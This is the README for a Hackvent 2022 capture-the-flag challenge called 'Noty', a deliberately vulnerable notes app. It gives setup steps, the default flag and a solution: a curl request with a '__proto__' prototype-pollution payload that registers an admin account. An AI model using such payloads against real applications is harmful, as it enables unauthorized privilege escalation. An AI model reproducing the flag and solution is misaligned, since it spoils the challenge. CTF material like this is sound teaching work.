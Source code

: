 # Noty

This is a challenge for the Hackvent 2022.

## Description

Pollution is everywhere....  
For this reason Santa created Noty! A fixed version of Notme. Bugs this time ;)  
With Noty you can write up all the polluters in your familiy that you see and roast them all at once during christmas.

## Vulnerability

The application is vulnerable to prototype pollution at the endpoints `POST /api/register` and `POST /api/user/ID`.
This allows a user to create an admin account.

## How to setup

Install the dependencies in the root and frontend folder with `yarn`.
After that build the frontend with `yarn run build`. Then build the backend with `yarn run build`.
Configure the DB connection and the flag within the .env file.
Start the whole thing with `yarn run start`.

## Default Flag

`HV22{P0luT1on_1S_B4d_3vERyWhere}`

## Solution

Pollute the prototype and create a new account with
`curl -H "Content-Type: application/json" "http://localhost:8080/api/register" --data '{"__proto__":{ "role": "admin"}, "username": "asdf", "password": "asdf"}'`  
`
Login and see the flag
